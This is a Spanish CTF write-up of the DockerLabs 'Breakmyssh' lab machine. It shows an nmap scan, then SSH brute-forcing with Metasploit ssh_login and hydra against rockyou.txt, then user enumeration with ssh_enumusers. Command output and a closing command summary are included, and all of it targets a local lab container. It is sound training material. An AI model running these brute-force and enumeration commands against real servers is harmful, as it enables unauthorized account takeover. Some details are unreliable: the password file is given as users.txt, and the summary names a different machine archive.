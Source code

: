 ```yaml
---
title: CTF-DockerLabs-Breakmyssh
published: true
---
```


## WriteUps maquina Breakmyssh de DockerLabs

---
tags:
  - CTF
  - estado/completado
  - plataforma: [DockerLabs]
  - dificultad: Muy fácil
  - autor: [Romabri]

# Datos

[!INFO] Breakmyssh
  -  **Nombre:** Breakmyssh
  -  **SO:** Linux
  -  **Dificultad:** Muy fácil
  -  **Enlace:** [Dockerlabs](https://dockerlabs.es/)

[!TODO] Objetivo
  - 🚩Ingresar a la maquina como algún usuario.
  - 🚩Elevar privilegios una vez obtenido el acceso.

El primer paso consiste en iniciar la máquina, lo cual es tan sencillo como ejecutar el siguiente comando después de haber descargado la maquina:

```bash
└─$ sudo bash auto_deploy.sh breakmyssh.tar
```

# Reconocimiento

  - Una vez iniciada la maquina, el mismo script de inicio me da la dirección IP a lo cual procedo a realizar un escaneo de puertos de la maquina y el resultado es el siguiente:

```bash
└─# nmap 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-22 17:20 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000017s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds
```

Esta maquina se pone un poco más interesante pues solo tenemos el puerto `SSH` abierto y no tenemos usuario, podría intentar enumerar usuarios, pero intentare primero usar metasploit. 

# Fuerza bruta con metasploit

  - Ya que no tengo usuarios, procedo a descargar el siguiente diccionario de usuarios [GitHub - hackingyseguridad/diccionarios](https://github.com/hackingyseguridad/diccionarios) y adicional le pasare `rockyou.txt` para la contraseña.

Utilizo `ssh_login` con metasploit de la siguiente manera:

```bash
msf6   - use auxiliary/scanner/ssh/ssh_login
```

Para el diccionario de usuario, utilizo el descargado desde github.

```bash
SET USER_FILE /usr/share/wordlists/users.txt
```

Para la contraseña utilizo `rockyou.txt`

```bash
SET PASS_FILE /usr/share/wordlists/users.txt
```

Defino la IP de mi objetivo:

```bash
SET RHOSTS 172.17.0.2
```

Y luego hago un `run` o `exploit` para ejecutarlo y al cabo de un rato me encuentra las credenciales de root.

```bash
msf6 auxiliary(scanner/ssh/ssh_login)   - exploit

[*] 172.17.0.2:22 - Starting bruteforce
[+] 172.17.0.2:22 - Success: 'root:xxxxxxxx' 'uid=0(root) gid=0(root) groups=0(root) Linux 4d678d7eed61 6.6.15-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.15-2kali1 (2024-05-17) x86_64 GNU/Linux '
[*] SSH session 1 opened (172.17.0.1:43721 -  - 172.17.0.2:22) at 2024-05-22 21:51:25 -0400
```

Y bueno ya con esto se puede decir que la maquina esta completa, sin embargo estando como root, chequeo para ver si existe algún usuario en el sistema, así que voy a directorio `/home` y resulta que existe el usuario: `lovely`

![pwnedBreakmyssh.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/pwnedBreakmyssh.png)

# Fuerza bruta SSH

  - Ahora que se que existe el usuario `lovely` en el sistema, procedo a realizar un ataque de fuerza bruta usando `hydra` como en las otras maquinas, de la siguiente manera:

```bash
└─# hydra -l lovely -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: lovely   password: rockyou
```

Y rápidamente me encuentra la contraseña del usuario, a lo que me conecto por SSH, sin embargo queda mi duda, ¿Cómo podría haber encontrado el usuario?

# Enumerando usuarios

Creo que al principio lo que tenia que haber utilizado era: `auxiliary/scanner/ssh/ssh_enumusers` y definir los siguientes parametros:

```bash
SET RHOSTS 172.17.0.2
SET USER_FILE /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
```

Y el resultado fue el siguiente:

```bash
msf6 auxiliary(scanner/ssh/ssh_enumusers)   - exploit

[*] 172.17.0.2:22 - SSH - Using malformed packet technique
[*] 172.17.0.2:22 - SSH - Checking for false positives
[*] 172.17.0.2:22 - SSH - Starting scan
[+] 172.17.0.2:22 - SSH - User 'mail' found
[+] 172.17.0.2:22 - SSH - User 'root' found
[+] 172.17.0.2:22 - SSH - User 'news' found
[+] 172.17.0.2:22 - SSH - User 'man' found
[+] 172.17.0.2:22 - SSH - User 'bin' found
[+] 172.17.0.2:22 - SSH - User 'games' found
[+] 172.17.0.2:22 - SSH - User 'nobody' found
[+] 172.17.0.2:22 - SSH - User 'lovely' found
[+] 172.17.0.2:22 - SSH - User 'backup' found
[+] 172.17.0.2:22 - SSH - User 'daemon' found
[+] 172.17.0.2:22 - SSH - User 'proxy' found
[+] 172.17.0.2:22 - SSH - User 'list' found
[*] Auxiliary module execution completed
```

Y el resultado confirma mi sospecha, lo primero era enumerar usuarios, el resultado luego de mostrarme algunos usuarios del sistema, también me muestra `lovely` entonces el procedimiento ideal seria, enumerar los usuarios, y luego lanzar un hydra o en todo caso un metasploit y listo, objetivo conseguido.

# Comandos

[!IMPORTANT] Resumen de comandos utilizados
  - `sudo bash auto_deploy.sh vacaciones.tar`
  - `nmap 172.17.0.2`
  - `msfconsole`
  - `use auxiliary/scanner/ssh/ssh_login`
  - `SET USER_FILE /usr/share/wordlists/users.txt`
  - `SET PASS_FILE /usr/share/wordlists/users.txt`
  - `SET RHOSTS 172.17.0.2`
  - `hydra -l lovely -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh`
  - `use auxiliary/scanner/ssh/ssh_enumusers`
  - `SET USER_FILE /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt`



```
¡Que la fuerza del hacking ético nos acompañe! :)
```

|   |
|:--|
|   |